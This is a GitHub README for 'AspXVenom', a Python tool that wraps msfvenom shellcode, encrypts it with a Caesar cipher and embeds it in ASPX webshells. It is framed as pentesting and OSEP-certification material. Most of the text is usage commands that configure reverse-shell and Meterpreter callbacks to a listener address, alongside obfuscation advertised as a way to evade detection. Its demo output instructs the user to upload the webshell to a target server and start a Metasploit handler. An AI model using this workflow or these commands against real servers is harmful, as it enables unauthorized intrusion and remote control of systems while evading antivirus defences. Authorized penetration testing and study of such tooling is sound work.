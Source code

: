 # AspXVenom

<p align="center">
  <img src="https://img.shields.io/badge/Version-2.0-brightgreen" alt="Version">
  <img src="https://img.shields.io/badge/Language-Python%203-blue" alt="Language">
  <img src="https://img.shields.io/badge/Platform-Windows%20%7C%20Linux-orange" alt="Platform">
  <img src="https://img.shields.io/badge/License-MIT-lightgrey" alt="License">
</p>

<p align="center">
  <b>AspXVenom</b> is an advanced ASPX shellcode generator with encryption and obfuscation capabilities for penetration testing.
</p>

<p align="center">
  <a href="https://xbz0n.sh"><img src="https://img.shields.io/badge/Blog-xbz0n.sh-red" alt="Blog"></a>
</p>

---

## Overview

AspXVenom automates the process of generating encoded shellcode and embedding it into ASPX webshells, providing a smooth workflow for penetration testers during security assessments. The tool is specifically designed for testing ASPX-enabled web servers and .NET environments.

## New in Version 2.0

AspXVenom v2.0 is a complete rewrite with significant improvements:

- **Self-contained** - All templates embedded directly in a single script
- **Enhanced obfuscation** - Variable name randomization to evade detection
- **Improved encryption** - Customizable Caesar cipher keys
- **Better management** - Temporary file cleanup and improved error handling
- **More robust** - Comprehensive validation and exception handling
- **User-friendly** - Detailed logs and summary output

## Features Comparison

| Feature | v1.0 (Legacy) | v2.0 |
|---------|---------------|------|
| Required files | Multiple files (templates) | Single file |
| Encryption | Fixed key (5) | Customizable, random by default |
| Variable obfuscation | ❌ | ✅ |
| Error handling | Basic | Comprehensive |
| Temporary files | Persistent | Auto-cleanup |
| Logging | Limited | Detailed with verbosity control |
| Parameter validation | ❌ | ✅ |
| Randomization | ❌ | ✅ |

## Requirements

- Python 3.6+
- Metasploit Framework
- Mono (for executing .NET applications)
- mcs (Mono C# compiler)

## Installation

```bash
# Clone the repository
git clone https://github.com/xbz0n/AspXVenom.git
cd AspXVenom

# Ensure the script is executable
chmod +x aspxvenom.py
```

## Usage

### Version 2.0 (Recommended)

```bash
# Basic usage
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444

# With variable obfuscation
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --obfuscate

# With custom encryption key and verbose output
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --key 42 --verbose

# Custom payload and output directory
./aspxvenom.py --LHOST 192.168.1.100 --LPORT 4444 --payload windows/x64/shell_reverse_tcp --output-dir custom_output
```

### Legacy Version (1.0)

```bash
# Navigate to legacy directory
cd legacy

# Basic usage 
python3 aspx_shellcode_generator.py --LHOST 192.168.1.100 --LPORT 4444
```

## Command Line Options

| Option | Description | Default |
|--------|-------------|---------|
| `--LHOST` | IP address to listen on (required) | - |
| `--LPORT` | Port to listen on (required) | - |
| `--payload` | Metasploit payload to use | windows/x64/meterpreter/reverse_https |
| `--output-dir` | Directory to save generated files | output |
| `--key` | Custom encryption key (1-255) | Random |
| `--verbose`, `-v` | Enable verbose output | False |
| `--obfuscate`, `-o` | Obfuscate variable names | False |

## Workflow

1. The tool generates shellcode using msfvenom with your specified parameters
2. It embeds the shellcode into a C# program that encrypts it using a Caesar cipher
3. The encrypted shellcode is embedded into an ASPX web shell template
4. The tool creates a Metasploit resource file for handling the connection

## Demo

After successful execution, you'll see a summary like this:

```
============================================================
 AspXVenom - Shellcode Generator Summary 
============================================================
LHOST: 192.168.1.100
LPORT: 4444
Payload: windows/x64/meterpreter/reverse_https
Encryption Key: 42
Variable Obfuscation: Enabled

Generated Files:
- Webshell: /path/to/output/WebShellFinal.aspx
- Metasploit RC: /path/to/output/met64.rc

Usage:
1. Upload WebShellFinal.aspx to the target server
2. Start Metasploit handler: msfconsole -r met64.rc
============================================================
```

## Security Considerations

- This tool is for educational purposes and authorized testing only
- Always obtain proper permission before performing any penetration testing
- The payloads generated are detected by most antivirus products
- Use responsibly and legally

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## Author

- **xbz0n** - [Blog](https://xbz0n.sh) | [GitHub](https://github.com/xbz0n)

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

- Special thanks to the penetration testing community for inspiration
- Made for OSEP certification challenges 